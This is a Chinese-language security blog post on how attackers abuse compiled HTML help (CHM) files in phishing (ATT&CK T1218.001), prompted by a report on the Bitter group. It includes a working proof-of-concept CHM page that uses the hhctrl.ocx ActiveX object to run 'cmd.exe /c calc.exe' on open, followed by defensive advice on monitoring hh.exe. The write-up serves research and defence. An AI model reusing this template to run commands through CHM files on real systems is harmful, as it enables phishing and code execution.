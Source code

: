 ```yaml
---
title: "邮件钓鱼与T1218.001"
date: 2023-09-18
description: 今天中午看到一份关于Bitter组织针对亚太地区能源部门发起钓鱼活动分析报告，其中@Ryan Robinson 2023年3月24日对该组织使用的CHM样本进行了分析。于是开始详细了解为什么CHM格式在钓鱼中可以发挥如此大的价值。
url: /archivers/2023-09-18/phishing
tags: [phishing]
---
```


<aside>
📌 攻击者可能会滥用编译的 HTML 文件 （.chm） 来隐藏恶意代码。CHM文件通常作为Microsoft HTML帮助系统的一部分分发。CHM文件是各种内容的压缩编译，如HTML文档，图像和脚本/Web相关的编程语言，如VBA，JScript，Java和ActiveX。CHM 内容使用由 HTML 帮助可执行程序 （hh.exe） 加载的 Internet Explorer 浏览器的基础组件显示。 - 摘自 ATT&CK [System Binary Proxy Execution: Compiled HTML File, Sub-technique T1218.001 - Enterprise | MITRE ATT&CK®](https://attack.mitre.org/techniques/T1218/001/)

</aside>

## 背景

![0](https://images.payloads.online/2024-07-29-9c23ae3e32974727854fe650b5d94e641f5d33fa6fff2ff2aca32a224127b8e4.png)  


今天中午看到一份关于[Bitter组织针对亚太地区能源部门发起钓鱼活动](https://intezer.com/blog/research/phishing-campaign-targets-nuclear-energy-industry/)分析报告，其中@Ryan Robinson 2023年3月24日对该组织使用的CHM样本进行了分析。于是开始详细了解为什么CHM格式在钓鱼中可以发挥如此大的价值。

## CHM文件打开的过程

CHM文件是各种内容的压缩编译，如HTML文档，图像和脚本/Web相关的编程语言，在CHM打开时，会调用IE浏览器的基础组件解析显示,双击打开CHM文件其实本质上是创建了一个hh.exe的进程。

![1](https://images.payloads.online/2024-07-29-eab40d97f6ec3c24b6f998a624539ba37ed83871a7c7c07c00dddb5dad7d9ce9.png)  


## CHM的Payload

CHM文件可以通过hh.exe进行反编译：

```bash
hh.exe -decompile %temp%  payload.chm
```

### 如何构建CHM文件？

可以使用`Microsoft HTML Help Workshop`工具创建CHM文件，FILES指的是目录，OPTIONS指的是文档基本信息：

![2](https://images.payloads.online/2024-07-29-46f7eb69f2f9cfa3972058713818f15955e891fb99252bae45c6209f88a87e69.png)  


```html
<html>
    <head>
<OBJECT id="Test" type="application/x-oleobject" classid="clsid:52a2aaae-085d-4187-97ea-8c30db990436" codebase="hhctrl.ocx#Version=5,02,3790,1194" width="1" height="1">
<PARAM name="Command" value="ShortCut">
<PARAM name="Button" value="Bitmap:shortcut">
<PARAM name="Item1" value=",cmd.exe, /c calc.exe">
<PARAM name="Item2" value="273,1,1">
</object>
<script>
Test.HHClick();
</script>
</head>
<body>
<h1>Hello</h1>
</body>
</html>
```

在这段代码中，调用了`hhctrl.ocx`COM组件，该组件的方法可以执行命令：

![3](https://images.payloads.online/2024-07-29-037a6f715f47a2e3cde7a7ab2ce97301f632f4858252dfaf9196e8a54ba4da84.png)  

COM组件方法列表：[CLSID 52A2AAAE-085D-4187-97EA-8C30DB990436 | HHCtrl Object | STRONTIC](https://strontic.github.io/xcyclopedia/library/clsid_52A2AAAE-085D-4187-97EA-8C30DB990436.html)

![4](https://images.payloads.online/2024-07-29-c1ef1cd6eac332ebc0ad3f7fdb6c7a8827454261cc4f41152542bda3581dd8d2.png)  


Atomic [atomic-red-team/atomics/T1218.001/src/T1218.001.html at master · redcanaryco/atomic-red-team (github.com)](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.001/src/T1218.001.html) 给出的测试用例代码调用的是Click方法，我测试了HHClick也能够触发。

我在本地尝试编译了一个弹出计算器的CHM文档，上传至VirusTotal进行分析：

![5](https://images.payloads.online/2024-07-29-af545bb4f3c853f8a569cf68ab877948a6cf8feb189f79701163af63aaa54b57.png)  

在ATT&CK中也提到有攻击组织采用调用ActiveX对象的方法来对文件进行操作，这个过程可能不会创建进程：

![6](https://images.payloads.online/2024-07-29-8beb342548a5e4d3c052715bd5b4e0fb7e7a602d5988fb65547c432a0eeb420d.png)  

## CHM文件执行命令的防御措施

这里可以直接总结一下ATT&CK矩阵上的建议：

1. 阻止CHM文件的下载
2. 进程监控，监视和分析hh.exe的执行和参数。将最近调用的hh.exe与已知良好参数的先前历史记录进行比较，以确定异常和潜在的对抗性活动（例如：混淆和/或恶意命令）。非标准进程执行树也可能指示可疑或恶意行为，例如，如果hh.exe是与其他对抗性技术相关的可疑进程和活动的父进程。

## 参考

- [CLSID 52A2AAAE-085D-4187-97EA-8C30DB990436 | HHCtrl Object | STRONTIC](https://strontic.github.io/xcyclopedia/library/clsid_52A2AAAE-085D-4187-97EA-8C30DB990436.html)
- [Phishing Campaign Targets Chinese Nuclear Energy Industry (intezer.com)](https://intezer.com/blog/research/phishing-campaign-targets-nuclear-energy-industry/)
- [T1218.001 - Explore Atomic Red Team](https://atomicredteam.io/defense-evasion/T1218.001/)
- [atomic-red-team/atomics/T1218.001/src/T1218.001.html at master · redcanaryco/atomic-red-team (github.com)](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.001/src/T1218.001.html)
- [System Binary Proxy Execution: Compiled HTML File, Sub-technique T1218.001 - Enterprise | MITRE ATT&CK®](https://attack.mitre.org/techniques/T1218/001/)
- [Microsoft HTML Help Workshop](https://www.helpndoc.com/downloads/htmlhelp.exe)